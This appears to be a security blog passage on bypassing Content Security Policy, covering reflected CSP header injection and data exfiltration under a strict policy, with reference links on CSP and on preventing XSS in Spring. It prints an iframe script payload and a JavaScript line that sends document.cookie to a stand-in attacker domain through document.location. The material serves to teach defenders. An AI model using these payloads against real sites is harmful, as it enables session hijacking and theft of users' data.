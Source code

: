 <iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>

CSP Injection Bypass
In this case, the input from the user is reflected back in the CSP header. Let's take the following URL as an example:

https://www.cobalt.io?param=payload.

This is what you should see if your input is reflected in the CSP header.

CSP header

script-src payload;

object-src 'none';

base-uri 'none';

script-src can therefore be set to whatever value we want. This value can be easily set to a domain we control, bypassing the CSP.

CSP Data Exfiltration
Even though there’s a strict CSP that prohibits you from interacting with external servers, there are still things you can do to exfiltrate the data regardless of how strict the CSP is.

Location 

In order to send the secret information to the attacker's server, you could simply update the location:

var sessionid = document.cookie.split('=')[1] + "."; 

document.location = "https://www.attacker-owned-website.com/?" + sessionid;

Conclusion
CSP serves as a defense-in-depth strategy against XSS and clickjacking attacks. CSP can, however, be easily bypassed if not implemented properly. Therefore, it is ideal for all scripts to reside on your hosts, and your CSP should not allow anything from the internet.

We hope you enjoyed this blog post. See you again in our next blog post.

Reference
https://brutelogic.com.br/blog/csp-bypass-guidelines/
https://bhavesh-thakur.medium.com/content-security-policy-csp-bypass-techniques-e3fa475bfe5d
https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass

##
##

##
##
##

<3

https://developers.google.com/web/fundamentals/security/csp
<br>
<br>
Spring_v_XSS
<br>
https://www.baeldung.com/spring-prevent-xss
<br>
https://www.stackhawk.com/blog/spring-content-security-policy-guide-what-it-is-and-how-to-enable-it/
<br>
https://phani-susarla.medium.com/preventing-xss-in-spring-boot-apps-558580340f33
